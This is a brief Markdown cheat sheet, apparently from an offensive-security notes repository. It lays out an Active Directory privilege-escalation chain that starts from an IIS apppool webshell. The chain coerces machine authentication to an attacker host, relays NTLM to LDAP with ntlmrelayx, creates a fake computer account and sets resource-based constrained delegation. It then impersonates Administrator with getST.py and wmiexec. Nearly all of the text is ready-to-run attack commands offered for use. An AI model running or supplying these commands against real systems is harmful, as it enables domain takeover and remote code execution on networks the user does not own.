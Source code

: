 # Quickwin - IIS apppool account NTLM Relay to LDAP with RBCD

## Intro

Privilege escalation IIS apppool webshell to Admin

## HTTP coerce of the machine account

```shell
powershell -iwr http://<ip_attack> -UseDefaultCredentials
responder -I <interface> -v
```

### NTLM Relay to LDAP for RBCD (ou Shadow credentials)

```shell
ntlmrelayx -t ldap://<dc_ip> -smb2support --interactive
nc 127.0.0.1 11000
# start_tls
# add_computer fakePC P@ssword123
# set_rbcd <target_rbcd> fakePC$ 
```

### Profit :)

```shell
getsT.py -spn cifs/<target_rbcd>.example.com -impersonate Administrator -dc-ip <dc_ip/fqdn> 'example.com/fakePC$:P@ssword123'
export KRB5CCNAME=Administrator@cifs_<target_rbcd>.example.com.ccache
wmiexec.py -k -no-pass @<target_rbcd>.example.com
```

## Sources
- https://x.com/M4yFly/status/1745581076846690811


